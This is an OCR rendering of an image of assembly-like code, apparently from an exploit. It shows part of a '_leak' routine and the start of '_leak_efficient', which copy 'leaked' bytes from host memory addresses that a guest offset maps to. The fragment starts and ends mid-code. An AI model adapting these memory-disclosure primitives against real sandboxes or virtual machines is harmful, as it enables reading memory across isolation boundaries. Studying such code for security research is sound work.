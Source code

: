 ```asm

    // apply is_negative_mask: r0 = (r >> 24) >= 0 ? r0 : (-r0)
    // because we are lazy and don't want to use a conditional, we use the folliwng equivalent expression:
    // r0 = (r >> 24) >= 0 ? r0 : ((r0 ^ r19) - r19)
    int32 r0 = r0 ^ r19 // invert if negaitve
    int32 r0 = r0 - r19 // + 1 iff negative
    int32 r0 = r0 & 0xFFFFFF // we are only interested in the lower 3B

    // store leaked bytes
    int32 r1 = r0 & 0xFF
    int8 [r18] = r1
    int32 r1 = r0 >> 8
    int32 r1 = r1 & 0xFF
    int8 [r18 + 1] = r1
    int32 r1 = r0 >> 16
    int8 [r18 + 2] = r1

    // calculate is_negative_mask
    int32 r19 = r0 & 0x80
    int32 r19 = r19 << 24
    int32 r19 = shift_right_s(r19, 31)

    // move src and dst pointers to next location
    int64 r16 = r16 - 3
    int64 r17 = r17 - 3
    int64 r18 = r18 - 3
} while (int64 r16 > 0)

return
_leak end


_leak_efficient function public
// r0: src offset (guest addr)
// r1: src addr (host addr)
// r2: dst
// r3: length

// assumes src[length] to be writeable
// as well as *(int32_t *)(src + length - 1) small positive value, i.e. above src no large values (=> efficiency decreases) and no negative values (=> algorithm breaks)

// internal register alloacation:
// r16: cur src pointer
// r17: cur dst address
// r18: cur dst pointer
// r19: remaining length
// r20: saved length

int64 r16 = r0 + r3
int64 r17 = r1 + r3
int64 r18 = r2 + r3
int64 r19 = r3
int64 r20 = r3

do {
    int64 r16 = r16 - 1
    int64 r17 = r17 - 1
    int64 r18 = r18 - 1

    // leak byte
    int64 r1 = r16
```